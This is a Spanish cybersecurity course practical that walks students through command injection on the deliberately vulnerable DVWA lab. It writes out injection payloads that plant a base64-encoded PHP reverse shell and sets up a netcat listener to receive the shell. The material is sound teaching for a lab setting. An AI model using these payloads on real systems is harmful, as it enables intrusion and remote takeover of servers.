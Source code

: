 ```yaml
---
typora-copy-images-to: ../assets/img/fileupload
typora-root-url: ../../
layout: post
categories: tema4 Command Injection
title: Command Injection
conToc: false
header-includes: |
    \usepackage{fancyhdr}
    \pagestyle{fancy}
    \newcommand{\changefont}{%
    \fontsize{8}{11}\selectfont}
    \fancyhead[CO,CE]{}
    \fancyhead[LO,CE]{}
    \fancyfoot[LO,CE]{\changefont https://victorponz.github.io/Ciberseguridad-PePS/}
    \fancyfoot[CO,CE]{}
    \fancyfoot[LE,RO]{\thepage}
    \renewcommand{\headrulewidth}{2pt}
    \renewcommand{\footrulewidth}{1pt}
---
```


## Práctica - Command injection

> La inyección de comandos es un ataque en el que el objetivo es la ejecución de comandos arbitrarios en el sistema operativo host a través de una aplicación vulnerable. Los ataques de inyección de comandos son posibles cuando una aplicación pasa datos no seguros proporcionados por el usuario (formularios, cookies, encabezados HTTP, etc.) a un shell del sistema. En este ataque, los comandos del sistema operativo proporcionados por el atacante generalmente se ejecutan con los privilegios de la aplicación vulnerable. Los ataques de inyección de comandos son posibles en gran parte debido a una validación de entrada insuficiente.

En la **siguiente práctica** vamos a realizar un *reverse shell* mediante la inyección  de comandos desde un campo de texto de un formulario que no realiza una validación de entrada correcta.

Este es una variante del ataque **FileUpload** ya que persigue almacenar un fichero ejecutable con dicho reverse shell.

La máquina DVWA tiene un fallo de seguridad en la página [Command Injection](http://localhost:8080/vulnerabilities/exec/).

![image-20210504191910879](/Ciberseguridad-PePS/assets/img/fileupload/image-20210504191910879.png)

En este formulario se supone que el usuario puede poner una IP a la que hacerle ping. Para descubrir si es vulnerable a Command injection podemos introducir el siguiente comando:

```
127.0.0.1 ; ls
```

Lo que intentamos es que el servidor ejecute también el comando `ls` ya que suponemos que esta es la instrucción que realiza el `ping`

```php
 $cmd = shell_exec( 'ping  -c 4 ' . $target ); 
```

y no comprueba si `$target` es una IP Válida.

**Los pasos son los siguientes:**

1. Descarga el archivo del *reverse shell* desde esta [dirección](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) y guárdalo como `shell.php`

2. Edítalo y cambia la IP por la de tu equipo

![image-20210504175459944](/Ciberseguridad-PePS/assets/img/fileupload/image-20210504175459944.png)



3. Ahora vamos a codificarlo en https://www.base64encode.org/.  

   > **Nota**. Para que ocupe menos espacio es recomendable eliminar los comentarios 

4.  Nos aprovecharnos de la vulnerabilidad para crear un archivo en el servidor mediante la siguiente entrada en el formulario:

   ```
   127.0.0.1 ; echo "pega-aquí-el-código-en-base64" > shell.txt
   ```

   Con este comando estamos creando el archivo `shell.txt` con el código en base64.
   
5. Decodificamos el código mediante la siguiente entrada

   ```
   127.0.0.1 ; cat shell.txt | base64 -d > shell.php
   ```

6. Ya sólo nos queda ejecutar en el ordenador del atacante el comando `netcat`

```bash
nc -v -n -l -p 1234
```

5. Y quedarnos a la espera de una conexión entrante desde el ordenador de la víctima al visitar la url [localhost:8080/vulnerabilities/exec/shell.php](localhost:8080/vulnerabilities/exec/shell.php) del punto 5.

 ![image-20210504193946369](/Ciberseguridad-PePS/assets/img/fileupload/image-20210504193946369.png)

